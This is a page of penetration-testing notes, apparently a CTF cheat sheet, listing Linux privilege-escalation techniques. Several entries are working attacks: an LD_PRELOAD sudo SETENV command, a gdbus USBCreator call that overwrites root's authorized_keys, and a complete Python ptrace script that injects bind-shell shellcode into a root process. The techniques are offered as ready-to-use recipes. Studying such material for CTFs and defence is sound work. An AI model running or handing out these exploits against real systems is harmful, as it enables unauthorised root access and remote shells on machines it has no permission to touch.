# Misc

### NFS Shares

When mounting nfs-shares with `mount <ip>:/<path> <folder>` you can impersonate users by running the command with a local user that has the uid you want to use on target box, as it just matches the uids when checking for permissions.

### MitM APT Packet Installation

See notes on [OneTwoSeven](https://vulndev.io/ctf/2019/05/04/htb-onetwoseven.html).

### Grep for MD5

```text
grep -e "[0-9a-f]\{32\}" <filename>
```

### Sudo SETENV

This can be exploited \(almost no matter what is executed\) by using LD\_PRELOAD \(See Pwn Hijacking\):

```text
(ALL) SETENV: <bin or script that calls bin>
```

```text
sudo -E LD_PRELOAD=/tmp/xct.so <bin or script that calls bin>
```

### [USBCreator ](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)Arbitrary Write as Root

```text
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/xct/authorized_keys /root/.ssh/authorized_keys true
```

### Python3 PTrace Capabilities

This opens a bind shell on 5600 - modify the pid in the exploit to point to a root run python process.

```text
import ctypes
import sys
import struct

PTRACE_POKETEXT   = 4
PTRACE_GETREGS  = 12
PTRACE_SETREGS  = 13
PTRACE_ATTACH   = 16
PTRACE_DETACH   = 17

class user_regs_struct(ctypes.Structure):
        _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
        ]

libc = ctypes.CDLL("libc.so.6")
pid= 637 # random root process
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
shellcode=b"\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

for i in range(0,len(shellcode),4):
  shellcode_byte_int=int(shellcode[i:4+i].hex(),16)
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip(b'\x00').hex()
  shellcode_byte=int(shellcode_byte_little_endian,16)
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

registers.rip=registers.rip+2
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
libc.ptrace(PTRACE_DETACH, pid, None, None)
```

